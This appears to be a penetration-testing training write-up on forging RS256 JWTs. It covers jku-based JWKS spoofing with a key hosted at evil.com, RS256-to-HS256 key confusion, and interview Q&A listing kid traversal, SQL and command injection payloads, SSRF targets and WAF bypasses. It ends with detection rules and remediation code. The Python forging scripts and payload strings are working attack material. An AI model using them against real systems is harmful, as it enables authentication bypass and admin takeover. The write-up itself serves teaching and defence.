

# API Ultra 02: Forging RSA JWTs via JWKS Spoofing and Key Confusion

## 1. Executive Brief & Scenario Context
**Target:** `auth.microservices.local` (Custom OAuth2/OIDC Provider)
**Context:** You are engaged in a grey-box VAPT of a complex microservices architecture. Authentication is handled by a central Identity Provider (IdP) that issues RS256 JWTs. The downstream microservices validate these tokens asynchronously by fetching the public keys from a JSON Web Key Set (JWKS) endpoint. The target application is an internal admin portal at `admin.microservices.local`.
**Primary Defenses:**
- Tokens are signed with asymmetric cryptography (RS256). The private key is securely stored in an AWS HSM.
- Strict authorization checks on the `role` claim in the JWT.
- Subdomain routing restrictions preventing direct access to the HSM or the IdP's backend database.

## 2. Architectural Diagram


## 3. The Attack Path

### Phase 1: Token Analysis & Recon
We authenticate as a standard user and receive a JWT. We decode the header and payload.

**Base64 Decoded Header:**
```json
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "key-2023-01",
  "jku": "https://auth.microservices.local/.well-known/jwks.json"
}
```

**Base64 Decoded Payload:**
```json
{
  "sub": "user_1029",
  "role": "standard_user",
  "exp": 1735689600
}
```
**Observation:** The header contains a `jku` (JWK Set URL) parameter. This parameter tells the verifying application *where* to download the public key to verify the token. 

### Phase 2: JWKS Spoofing & SSRF Validation
If the downstream microservice blindly trusts the `jku` header without enforcing an allowlist, we can perform JWKS spoofing.

**Step 2a: Generate a Malicious RSA Keypair**
```bash
# Generate a 2048-bit RSA private key
openssl genrsa -out attacker_private.pem 2048
# Extract the public key
openssl rsa -in attacker_private.pem -pubout -out attacker_public.pem
```

**Step 2b: Convert the Public Key to JWK Format**
We use a tool like `pem-to-jwk` to convert the PEM into the JSON Web Key format.
```json
{
  "keys": [
    {
      "kty": "RSA",
      "kid": "pwned-key-01",
      "use": "sig",
      "n": "vX-oBq_...massive_modulus_string...",
      "e": "AQAB"
    }
  ]
}
```
We host this file on our infrastructure at `https://evil.com/jwks.json`.

**Step 2c: Forge the JWT (The Python Exploit)**
We use our `attacker_private.pem` to sign a newly forged token, escalating our privileges to `admin`, and pointing the `jku` header to our server.

```python
import jwt
import time

private_key = open('attacker_private.pem', 'r').read()

header = {
    "kid": "pwned-key-01",
    "jku": "https://evil.com/jwks.json"
}

payload = {
    "sub": "admin_001",
    "role": "admin",
    "exp": int(time.time()) + 3600
}

token = jwt.encode(payload, private_key, algorithm='RS256', headers=header)
print(f"Forged Token: {token}")
```

We send the forged token to `admin.microservices.local`. The server reads the `jku` header, reaches out to `https://evil.com/jwks.json` (a Blind SSRF), downloads our public key, and successfully verifies our forged signature! We achieve full Admin takeover.

### Phase 3: The Alternate Path - Algorithm Confusion (RS256 -> HS256)
Assume the developers fixed the `jku` spoofing by hardcoding the JWKS URL or enforcing a strict regex. However, they failed to enforce the algorithm in the verification function.

**Exploit Physics:** The application uses `RS256` (Asymmetric). The verifying server uses the public key from the IdP to verify the signature. If we change the header `alg` to `HS256` (Symmetric HMAC), the vulnerable JWT library on the backend will use the same `verify(token, key)` function. BUT, because it thinks the token is symmetric, it treats the IdP's *Public Key PEM string* as the *HMAC shared secret*!

**Weaponized Key Confusion Payload:**
1. Download the legitimate public key from the IdP's JWKS.
2. Reconstruct the exact PEM format string (including newlines).
3. Use the PEM string as the secret for HS256.

```python
import jwt
import hmac
import hashlib
import base64

# The EXACT public key string the server uses, including exact newlines.
public_key_pem = b"""-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAu...
...
-----END PUBLIC KEY-----
"""

header = {"alg": "HS256", "typ": "JWT", "kid": "key-2023-01"}
payload = {"sub": "admin_001", "role": "admin"}

# We use the public key as the symmetric HMAC secret!
forged_token = jwt.encode(payload, public_key_pem, algorithm='HS256', headers=header)
print(f"Algorithm Confusion Token: {forged_token}")
```
The server receives the token, checks the `alg` header (`HS256`), fetches the public key from its trusted cache, and uses it as the secret to validate the HMAC. Verification succeeds.

## 4. Deep-Dive Interview Questions & Expert Answers

**Q1: Explain the components of a JWK, specifically `n` and `e`. What do they represent mathematically?**
**Expert Answer:** A JSON Web Key (JWK) representing an RSA public key consists of the key type (`kty`: "RSA"), the modulus (`n`), and the public exponent (`e`). In RSA cryptography, the public key is the pair `(n, e)`. The modulus `n` is the product of two large prime numbers (`p` and `q`). The exponent `e` is typically 65537 (`AQAB` in base64url). The JWT signature verification process involves taking the signature, raising it to the power of `e`, modulo `n`, and comparing the result to the hash of the header and payload. 

**Q2: How does the Key Confusion attack (RS256 to HS256) actually work at the source code level in vulnerable libraries?**
**Expert Answer:** Vulnerable libraries (like older versions of `jsonwebtoken` in Node or `pyjwt`) had a generic `verify(token, key)` function. They read the `alg` from the *untrusted* token header to decide which cryptographic algorithm to apply. If `alg` is HS256, the library routes the logic to its HMAC implementation. The developer passes the RSA public key to the `key` argument, expecting asymmetric verification. But the HMAC function happily accepts any byte string as a symmetric secret. Thus, it hashes the token using the public key string as the secret. The vulnerability is trusting the attacker-controlled header to dictate the verification branch.

**Q3: If a server is vulnerable to JWKS spoofing via `jku`, what secondary vulnerability does this natively introduce?**
**Expert Answer:** Server-Side Request Forgery (SSRF). Because the backend server makes an outbound HTTP GET request to the URL specified in the `jku` header, an attacker can supply internal URLs (e.g., `http://169.254.169.254/latest/meta-data/` on AWS, or `http://127.0.0.1:6379`). While primarily used to fetch keys, the attacker can use DNS rebinding or simply observe response times to map internal networks or exfiltrate data (Blind SSRF).

**Q4: How can an attacker exploit the `kid` (Key ID) header if `jku` is not present?**
**Expert Answer:** The `kid` header tells the server which key to use from its local store or database. If the server dynamically fetches the key based on the `kid` without sanitization, it can lead to multiple vulnerabilities:
1. **Directory Traversal:** `kid: "../../public/css/main.css"`. The server uses a predictable CSS file as the HMAC secret.
2. **SQL Injection:** `kid: "admin' UNION SELECT 'my_secret_key'--"`. The server retrieves an attacker-controlled string from the DB and uses it as the verification key.
3. **Command Injection:** If the `kid` is passed to an OS command (e.g., `cat keys/{kid}.pem`), it can lead to RCE.

**Q5: You are trying an RS256 to HS256 attack, but it fails. You know the public key is correct. What "physics" of the PEM string might be causing the failure?**
**Expert Answer:** The exact byte sequence of the public key is critical. In HS256, the secret is treated as a raw byte array. If the application server parses the public key and standardizes it (e.g., stripping carriage returns `\r`, altering newlines `\n`, or re-encoding it from PKCS#1 to PKCS#8) before passing it to the verification function, the attacker's HMAC secret will not match the server's HMAC secret. The attacker must guess or leak the exact string representation the runtime environment uses in memory.

**Q6: What is a "None" algorithm attack, and why did it ever work?**
**Expert Answer:** Early JWT specifications included a `none` algorithm for debugging or contexts where integrity was already guaranteed (e.g., TLS client certs). If an attacker changes the header to `{"alg": "none"}` and removes the signature portion of the JWT (leaving just `header.payload.`), a poorly configured server might see the `none` alg, skip the signature verification step entirely, and accept the forged payload. 

**Q7: Explain the difference between PKCS#1 and PKCS#8 in the context of RSA public keys.**
**Expert Answer:** They are ASN.1 standard formats for cryptographic keys. PKCS#1 (`-----BEGIN RSA PUBLIC KEY-----`) is specific to RSA keys and directly encodes the modulus and public exponent. PKCS#8 (`-----BEGIN PUBLIC KEY-----`) is a more generic format that can hold any algorithm's public key; it encapsulates the algorithm identifier (OID for RSA) alongside the key data. If an attacker uses the wrong format for the Key Confusion attack, the byte-for-byte HMAC will fail.

**Q8: A WAF blocks any `jku` header containing `http://` or `https://`. How might you bypass this?**
**Expert Answer:** You can attempt protocol smuggling or alternative URI schemes. For example, using `ftp://` or `dict://` if the underlying HTTP library (like cURL or PHP's `file_get_contents`) supports them. Another bypass is using schema-less URLs like `//evil.com/jwks.json`. If the parser strictly requires a scheme, you might exploit parser differentials by using unusual encodings or whitespace, such as `h\tt\tp://`.

**Q9: What is the "Bypassing Strict JKU Validation" technique using Open Redirects?**
**Expert Answer:** If the application enforces a strict domain whitelist for the `jku` header (e.g., `https://*.microservices.local`), the attacker can look for an Open Redirect vulnerability on any subdomain of `microservices.local`. They set the `jku` to `https://marketing.microservices.local/redirect?url=https://evil.com/jwks.json`. The backend validation passes the domain check, initiates the HTTP request, follows the redirect, and fetches the malicious JWKS.

**Q10: Why is extracting a public key from an existing RS256 JWT signature mathematically impossible, requiring the attacker to find the public key elsewhere?**
**Expert Answer:** An RSA signature in a JWT is the cryptographic hash of the header and payload, encrypted with the private key. You cannot derive the public modulus (`n`) or exponent (`e`) just by observing the ciphertext (signature) and the plaintext (header+payload). It is a one-way mathematical trapdoor. The attacker must obtain the public key from an endpoint (like a JWKS URL), a misconfigured exposed file, or a TLS certificate if the same key pair is re-used for HTTPS (a common but terrible practice).

## 5. Forensic Artifacts & Detection Engineering
**SIEM Rules (Elastic KQL):**
Detecting anomalous algorithm changes (HS256 from an endpoint that should only see RS256):
```kql
index=app_logs
| where message contains "JWT Verification"
| parse message with * "alg=" algorithm " " *
| where algorithm == "HS256" and expected_alg == "RS256"
```
Detecting JWKS SSRF / Spoofing attempts:
```kql
index=waf_logs OR index=proxy_logs
| where request.headers.jku != "https://auth.microservices.local/.well-known/jwks.json"
| and request.headers.jku exists
```

## 6. Remediation Code Snippet (Python PyJWT)
How to prevent Algorithm Confusion and JKU Spoofing.
```python
import jwt

# 1. HARDCODE the allowed algorithms. Never trust the header.
ALLOWED_ALGORITHMS = ["RS256"]

# 2. Never dynamically fetch keys based on unvalidated JKU headers.
# Cache the trusted public key internally.
TRUSTED_PUBLIC_KEY = load_key_from_secure_vault()

def verify_incoming_token(token):
    try:
        # The vulnerable way: jwt.decode(token, TRUSTED_PUBLIC_KEY)
        # The secure way: Explicitly define allowed algorithms
        decoded_payload = jwt.decode(
            token, 
            TRUSTED_PUBLIC_KEY, 
            algorithms=ALLOWED_ALGORITHMS, # This prevents Key Confusion
            options={"verify_signature": True}
        )
        return decoded_payload
    except jwt.InvalidAlgorithmError:
        log_security_event("Key Confusion Attempt Blocked")
        raise
```
